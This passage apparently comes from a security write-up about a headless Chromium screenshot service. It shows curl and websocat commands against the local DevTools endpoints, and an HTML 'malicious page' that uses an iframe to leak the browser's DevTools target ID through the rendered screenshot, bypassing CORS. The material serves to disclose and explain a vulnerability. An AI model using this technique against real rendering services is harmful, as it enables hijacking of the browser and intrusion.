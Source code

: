 $ echo '{"id":1, "method":"Browser.getVersion"}' | websocat -n1 ws://127.0.0.1:55492/devtools/browser/wrong-target-id

websocat: WebSocketError: WebSocketError: Received unexpected status code (404 Not Found)
websocat: error running
SHELL
Copy
DevTools HTTP Endpoints
DevTools also exposes some HTTP endpoints, like /json/version and /json/new. Unlike the WebSocket endpoint, no target ID or authentication is required.

For example, /json/version lists browser version information, along with the WebSocket endpoint and the sensitive browser target ID 285956da-acb4-4251-ba54-affbadb4acdb.

$ curl http://127.0.0.1:55492/json/version

{
   "Browser": "HeadlessChrome/109.0.5414.0",
   "Protocol-Version": "1.3",
   "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.0 Safari/537.36",
   "V8-Version": "10.9.194",
   "WebKit-Version": "537.36 (@4ef7c84d0bddc77eb66ac5e9663e5f6602a4bf7b)",
   "webSocketDebuggerUrl": "ws://127.0.0.1:55492/devtools/browser/285956da-acb4-4251-ba54-affbadb4acdb"
}
SHELL
Copy
DevTools HTTP can also be used to open a new tab using a simple GET request to /json/new.

$ curl 'http://127.0.0.1:55492/json/new?https://example.org'

{
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=127.0.0.1:55492/devtools/page/92ECF95CAF8B0B7B69BD39BAD7284B9E",
   "id": "92ECF95CAF8B0B7B69BD39BAD7284B9E",
   "title": "",
   "type": "page",
   "url": "https://example.org/",
   "webSocketDebuggerUrl": "ws://127.0.0.1:55492/devtools/page/92ECF95CAF8B0B7B69BD39BAD7284B9E"
}
SHELL
Copy
Exploit
Browser controls, like CORS, protect the output of endpoints like /json/version so they can’t be read by a malicious page on another origin. However, because of the way we’re using Chromium to take screenshots of pages, CORS can be bypassed by embedding the /json/version endpoint into the page and observing the result.

<html>
  <body>
    My malicious page<br />
    <iframe src="http://localhost:55492/json/version" width="800" height="600"></iframe>
  </body>
</html>
HTML
Copy
Which, when exported as a screenshot, results in the following.
